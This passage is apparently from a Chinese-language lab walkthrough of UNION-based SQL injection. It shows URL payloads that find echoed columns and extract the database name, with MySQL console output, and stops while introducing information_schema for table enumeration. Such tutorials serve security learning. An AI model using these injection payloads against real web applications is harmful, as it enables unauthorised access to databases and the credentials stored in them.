    `?id=%27 union select 1,2,3 %23`

   ![](../pic/30.png)  2，3处有回显。

   *sql控制台执行结果*

   ```
   mysql> select * from user where id=0 union select 1,2,3;
   +------+----------+----------+
   | id   | username | password |
   +------+----------+----------+
   |    1 | 2        | 3        |
   +------+----------+----------+
   1 row in set (0.00 sec)
   ```

   因为sql控制台是所有都显示的，网页的界面的前端代码设置回显。

2. 获取数据库名

   `?id=%27 union select 1,database() ,3 %23`

   ![](../pic/31.png)

   ````
   mysql> select * from users where id=0 union select 1,database(),3;
   +----+----------+----------+
   | id | username | password |
   +----+----------+----------+
   |  1 | security | 3        |
   +----+----------+----------+
   1 row in set (0.00 sec)
   ````

3. 获取表名

   在mysql的数据库中包含一个数据库，information_schema，其中的tables表中记录所有数据库的表名,table_schema栏记录是所属的数据库，table_name记录数据库包含的表名
